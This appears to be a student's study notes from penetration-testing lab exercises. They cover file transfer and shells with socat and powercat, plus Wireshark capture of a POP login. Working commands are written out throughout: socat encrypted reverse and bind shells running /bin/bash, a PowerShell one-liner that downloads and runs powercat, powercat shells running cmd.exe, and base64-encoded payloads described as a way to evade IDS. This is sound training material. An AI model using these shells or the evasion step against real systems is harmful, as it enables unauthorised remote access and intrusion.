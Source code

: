 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[Pasted image 20220218171345.png]]
![[Pasted image 20220218171401.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[Pasted image 20220218173555.png]]
![[Pasted image 20220218173813.png]]

# exercises 4.4.6
#### Exercises

_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
setup filter to only capture traffic on port 110
connect to pop server via nc
`nc -nv <IP> 110`
attempt to log into pop server 
`USER student`
`PASS lab`
![[Pasted image 20220218183021.png]]
2.  Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?
Frame 1, 2, and 3 contain the three-way handshake
![[Pasted image 20220218183223.png]]
frame 13 contains RST, ack which is used to reset/shutdown a connection
![[Pasted image 20220218183755.png]]

3.  Follow the TCP stream to read the login attempt.
![[Pasted image 20220218183815.png]]

4.  Use the display filter to only monitor traffic on port 110.
this can be done one the startup page via the capture filter
![[Pasted image 20220218183859.png]]
or with the display filter once the capture has begun
![[Pasted image 20220218184037.png]]

5.  Run a new session, this time using the capture filter to only collect traffic on port 110.
see above section for capture filtering